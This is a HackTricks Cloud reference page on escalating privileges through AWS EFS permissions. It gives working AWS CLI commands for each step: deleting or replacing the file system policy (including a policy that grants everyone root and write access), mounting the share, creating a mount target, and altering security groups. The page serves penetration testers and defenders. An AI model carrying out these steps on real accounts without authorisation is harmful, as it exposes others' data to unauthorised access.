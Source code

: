 # AWS - EFS Privesc

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## EFS

More **info about EFS** in:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Remember that in order to mount an EFS you need to be in a subnetwork where the EFS is exposed and have access to it (security groups). Is this is happening, by default, you will always be able to mount it, however, if it's protected by IAM policies you need to have the extra permissions mentioned here to access it.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

With any of those permissions an attacker can **change the file system policy** to **give you access** to it, or to just **delete it** so the **default access** is granted.

To delete the policy:

```bash
aws efs delete-file-system-policy \
    --file-system-id <value>
```

To change it:

```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json: 
{
    "Version": "2012-10-17",
    "Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
    "Statement": [
        {
            "Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": [
	       "elasticfilesystem:ClientRootAccess",
               "elasticfilesystem:ClientWrite",
               "elasticfilesystem:ClientMount"
            ],
            "Condition": {
                "Bool": {
                    "elasticfilesystem:AccessedViaMountTarget": "true"
                }
            }
        }
    ]
}
```

### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

With this permission an attacker will be able to **mount the EFS**. If the write permission is not given by default to everyone that can mount the EFS, he will have only **read access**.

```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```

The extra permissions`elasticfilesystem:ClientRootAccess` and `elasticfilesystem:ClientWrite` can be used to **write** inside the filesystem after it's mounted and to **access** that file system **as root**.

**Potential Impact:** Indirect privesc by locating sensitive information in the file system.

### `elasticfilesystem:CreateMountTarget`

If you an attacker is inside a **subnetwork** where **no mount target** of the EFS exists. He could just **create one in his subnet** with this privilege:

```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
    --subnet-id <value> \
    --security-groups <value>
```

**Potential Impact:** Indirect privesc by locating sensitive information in the file system.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

In a scenario where an attacker finds that the EFS has mount target in his subnetwork but **no security group is allowing the traffic**, he could just **change that modifying the selected security groups**:

```bash
aws efs modify-mount-target-security-groups \
    --mount-target-id <value> \
    --security-groups <value>
```

**Potential Impact:** Indirect privesc by locating sensitive information in the file system.



<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
